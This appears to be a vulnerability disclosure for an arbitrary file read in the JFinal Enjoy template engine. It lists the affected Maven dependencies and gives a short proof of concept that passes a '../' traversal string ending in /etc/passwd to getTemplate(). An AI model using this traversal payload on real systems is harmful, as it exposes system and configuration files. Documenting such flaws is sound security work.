


# jfinal tempalte(enjoy) file read

# Config

```maven
 <dependencies>
        <dependency>
            <groupId>junit</groupId>
            <artifactId>junit</artifactId>
            <version>3.8.1</version>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>jfinal</artifactId>
            <version>5.2.4</version>
        </dependency>
        <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>jfinal-undertow</artifactId>
            <version>3.7</version>
        </dependency>
        <dependency>
            <groupId>com.jfinal</groupId>
            <artifactId>cos</artifactId>
            <version>2022.2</version>
        </dependency>
    </dependencies>
```

# Recurrence process

```
Engine engine = new Engine();
Template template = engine.getTemplate("../../../../../../../../../../../../../../../../../../../../../etc/passwd");
System.out.println(template.renderToString());
```


[//]: # (/Users/qinchenkai/go/cve_detail/imgs)
## detail:

When the file is read, it is spliced and rendered directly without any filtering.

This can only read from the classPath, but fortunately there may be configuration or source code in the ClassPath


Because the enjoy engine is built into jfinal, arbitrary file reads can occur when the templates in jfinal are controllable



